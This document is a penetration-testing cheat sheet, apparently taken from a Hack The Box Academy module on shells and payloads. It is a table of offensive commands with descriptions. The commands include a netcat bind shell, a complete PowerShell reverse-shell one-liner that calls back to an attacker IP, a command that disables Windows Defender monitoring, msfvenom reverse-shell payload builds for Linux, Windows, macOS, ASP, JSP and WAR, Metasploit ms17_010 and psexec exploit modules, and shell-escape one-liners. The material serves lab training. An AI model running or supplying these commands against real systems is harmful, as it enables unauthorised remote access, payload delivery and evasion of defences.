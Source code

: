 |   |   |
|---|---|
|xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!|CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol|
|env|Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use|
|sudo nc -lvnp <port #>|Starts a netcat listener on a specified port|
|nc -nv <ip address of computer with listener started><port being listened on>|Connects to a netcat listener at the specified IP address and port|
|rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f|Uses netcat to bind a shell (/bin/bash) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on|
|powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \| Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"|Powershell one-liner used to connect back to a listener that has been started on an attack box|
|Set-MpPreference -DisableRealtimeMonitoring $true|Powershell command using to disable real time monitoring in Windows Defender|
|use exploit/windows/smb/psexec|Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec|
|shell|Command used in a meterpreter shell session to drop into a system shell|
|msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf|MSFvenom command used to generate a linux-based reverse shell stageless payload|
|msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe|MSFvenom command used to generate a Windows-based reverse shell stageless payload|
|msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho|MSFvenom command used to generate a MacOS-based reverse shell payload|
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp|MSFvenom command used to generate a ASP web reverse shell payload|
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp|MSFvenom command used to generate a JSP web reverse shell payload|
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war|MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload|
|use auxiliary/scanner/smb/smb_ms17_010|Metasploit exploit module used to check if a host is vulnerable to ms17_010|
|use exploit/windows/smb/ms17_010_psexec|Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010|
|use exploit/linux/http/rconfig_vendors_auth_file_upload_rce|Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6|
|python -c 'import pty; pty.spawn("/bin/sh")'|Python command used to spawn an interactive shell on a linux-based system|
|/bin/sh -i|Spawns an interactive shell on a linux-based system|
|perl —e 'exec "/bin/sh";'|Uses perl to spawn an interactive shell on a linux-based system|
|ruby: exec "/bin/sh"|Uses ruby to spawn an interactive shell on a linux-based system|
|Lua: os.execute('/bin/sh')|Uses Lua to spawn an interactive shell on a linux-based system|
|awk 'BEGIN {system("/bin/sh")}'|Uses awk command to spawn an interactive shell on a linux-based system|
|find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;|Uses find command to spawn an interactive shell on a linux-based system|
|find . -exec /bin/sh \; -quit|An alternative way to use the find command to spawn an interactive shell on a linux-based system|
|vim -c ':!/bin/sh'|Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"|
|ls -la <path/to/fileorbinary>|Used to list files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute|
|sudo -l|Displays the commands that the currently logged on user can run as sudo|
|/usr/share/webshells/laudanum|Location of laudanum webshells on ParrotOS and Pwnbox|
|/usr/share/nishang/Antak-WebShell|Location of Antak-Webshell on Parrot OS and Pwnbox|

From <[https://academy.hackthebox.com/module/115/section/1131](https://academy.hackthebox.com/module/115/section/1131)>